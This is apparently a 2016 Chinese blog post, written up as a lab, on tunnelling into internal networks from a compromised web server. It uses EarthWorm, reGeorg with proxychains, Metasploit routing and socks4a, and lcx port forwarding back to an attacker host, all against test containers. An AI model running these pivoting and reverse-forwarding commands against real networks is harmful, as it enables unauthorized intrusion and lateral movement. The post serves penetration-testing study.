 ```yaml
---
layout: post
title: "内网代理那些事"
date: 2016-12-10
description: "内网渗透代理"
tag: 渗透测试 
---
```


有时候，经常在穿梭在行行种种的内网环境中，选择一个合适的代理方式十分重要，网上各式各样的代理工具和脚本也很多，本次实验环境尽可能的模拟真实的网络环境。本次实验分为两种情况:1.一种是被入侵的机器，能够反问道攻击机器(模拟现实中，肉鸡可以反弹的情况)。2:另外一种是被入侵的机器无法访问任何外网，只是被一个外网ip出口单纯的映射了一个端口出来。(可以想象一台公网vps机器映射了无数台web虚拟机)
## 实验环境(情况一)
### 攻击机器
kali一台 (10.211.55.3)
### 靶机

O s   | Service      | Ip          | WeakPoint
----- | ------------ | ----------- | -----------
ubuntu|  php,apache  | 172.17.0.2  |   upload  
centos|  discuz      | 172.17.0.4  |   weak password
debian|  tomcat      | 172.17.0.3  |   s2-032

其中第一个服务映射出一个外网端口80，简而言之就是，现在攻击机可以访问http://10.211.55.6/upfile.php ，这是唯一一个可以被kali访问的服务。

上传导致的问题，直接伪造下Content-Type: image/jpeg就可以上传了。
![](http://pic.findbugs.top/16-12-12/25588032-file_1481520064910_eb72.png)
![](http://pic.findbugs.top/16-12-12/97996972-file_1481520314428_1465e.png)
![](http://pic.findbugs.top/16-12-12/70510614-file_1481520610181_eb7a.png)

首先利用reGeorg不成功，很明显由于权限和一些php阉割的原因,socket代理不上。通过自己写的webshell方式代理的话，也只能做一些简单的http协议的事情，很显然不符合我们的需求。
###Earthworm
[下载地址](http://rootkiter.com/EarthWorm/download/ew.zip)
好像长城宽带就下不了，如果下不了的话，请自行翻墙。这里肯定是正向代理的方式。
在webshell上执行
```
/ew -s ssocksd -l 2333
```
然后攻击机proxychains 应用就行了，记得在/etc/proxychains.conf后面加上socket5 10.211.55.6 2333，反正我测试失败了。
### reGeorg
reGeorg使用也很简单，上传一个
![](http://pic.findbugs.top/16-12-12/19757624-file_1481535483786_f279.png)
然后本机
![](http://pic.findbugs.top/16-12-12/22422179-file_1481535602124_26a.png)
调用nmap扫描
```
nmap -sT -Pn -A -sI 192.168.1.101 192.168.1.108
```
只支持tcp和dns协议

攻击机
```
proxychains wget http://172.17.0.4/index.php
```
进一步拓展，reGeorg很方便，基本可以满足我们绝大部分的需求，可是我想充分利用好kali 的msf来渗透怎么办，这时候又无法反弹。
### MSF
正向代理
先生成一个后门

![](http://pic.findbugs.top/16-12-12/32718743-file_1481542234272_674b.png)

通过菜刀上传到根目录，然后执行一下
![](http://pic.findbugs.top/16-12-12/29369845-file_1481543347496_160ff.png)
![](http://pic.findbugs.top/16-12-12/34845144-file_1481543396810_158c9.png)
很显然一个shell是无法满足我们的要求的，我们要把shell提升到meterpreter
```
sessions -u 5
```
![](http://pic.findbugs.top/16-12-12/40003229-file_1481544375579_1e40.png)
查看ip
![](http://pic.findbugs.top/16-12-12/16243890-file_1481544578165_e0aa.png)
或者也可以
```
run get_local_subnets
```
![](http://pic.findbugs.top/16-12-12/92513586-file_1481544921373_b0d2.png)
添加路由
```
route add 172.17.0.2 255.255.0.0 7
```
查看下路由
```
route  print
```
![](http://pic.findbugs.top/16-12-12/70794383-file_1481544696603_248d.png)
内网扫描搞起，2333
扫存活ip
```
 auxiliary/scanner/ip/ipidseq
```
扫端口
```
use auxiliary/scanner/portscan/tcp 
```
![](http://pic.findbugs.top/16-12-12/53703064-file_1481545692843_96e2.png)
这里很容易就挂掉
后面就是类似的操作，可以参考文章
[科普：msf内网渗透实例](http://www.91ri.org/5462.html)

开一个sock4代理
先添加路由在用socks4a模块,不过这玩意用着贼卡
```
use auxiliary/server/socks4a
```
![](http://pic.findbugs.top/16-12-12/54432202-file_1481546334683_1b60.png)
查看jobs
```
jobs
```
### 总结
如果遇到这种流量只进不出的情况，也就是常说的正向代理，那么可以推荐用reGeorg+ proxychains的方式来加载网页或者运行一些python攻击脚本，然后用msf来对内网进行扫描或者域渗透
## 实验环境(情况二)
### 攻击机器
kali一台 (10.211.55.3)
### 靶机

O s   | Service      | Ip          | WeakPoint
----- | ------------ | ----------- | -----------
ubuntu|  php,apache  | 172.17.0.2  |   upload  
centos|  discuz      | 172.17.0.4  |   weak password
debian|  tomcat      | 172.17.0.3  |   s2-032

情况二简而言之就是可以反弹出shell,可以理解成172.17.0.2这台机器可以访问我们攻击机(10.211.55.3)
这个情况就要好很多了，可以用的方法很多. Earthworm,lcx,ssok
### lcx
先找到一台公网ip，说白了就是172.17.0.2可以ping通的机器，这里我们的攻击机是可以被肉鸡ping通的。
![](http://pic.findbugs.top/16-12-12/58321104-file_1481554606059_55cb.png)
kali上
![](http://pic.findbugs.top/16-12-13/29379939-file_1481558631021_106a.png)
肉鸡上
```
/portmap -m 3 -h1 10.211.55.3 -p1 3349 -h2 172.17.0.4 -p2 80
```
我们再访问http://10.211.55.3:3348/forum.php
发现其实就是把172.17.0.4的discuz给映射到攻击的3348端口上来了。
![](http://pic.findbugs.top/16-12-13/51180261-file_1481559043782_d783.png)

### Earthworm
由于Earthworm包含lcx的用法，也可以直接用它来转发
现在kali(10.211.55.3)机器上监听转发
```
/ew_for_linux64 -s lcx_listen -l 1234 -e 8888
```
肉鸡上运行
```
./ew -s lcx_slave -d 10.211.55.3 -e 1234 -f 172.17.0.3 -g 8080
```
![](http://pic.findbugs.top/16-12-13/84717905-file_1481560699829_6c6f.png)
是一个struts漏洞
![](http://pic.findbugs.top/16-12-13/99909988-file_1481561584244_13369.png)

### MSF
反向代理
先生成一个反弹后门
![](http://pic.findbugs.top/16-12-13/33842844-file_1481562319028_730.png)
![](http://pic.findbugs.top/16-12-13/12498651-file_1481562542743_e05a.png)

msf设置一下
![](http://pic.findbugs.top/16-12-13/68508804-file_1481561925699_7244.png)
反弹成功
![](http://pic.findbugs.top/16-12-13/95784446-file_1481562590545_148e.png)






## 拓展学习
[Shell反弹不出来怎么办呢？](http://www.91ri.org/11722.html)
[tunna 正向代理实现转发](http://lizhaojackson.lofter.com/post/1d50c172_ac7ccbf)
[内网渗透中转发工具总结 - TwoEyes](http://anyun.org/a/jishuguanzhu/wangluoanquan/loudongfenxiang/WooYu/2016/0924/6917.html)

      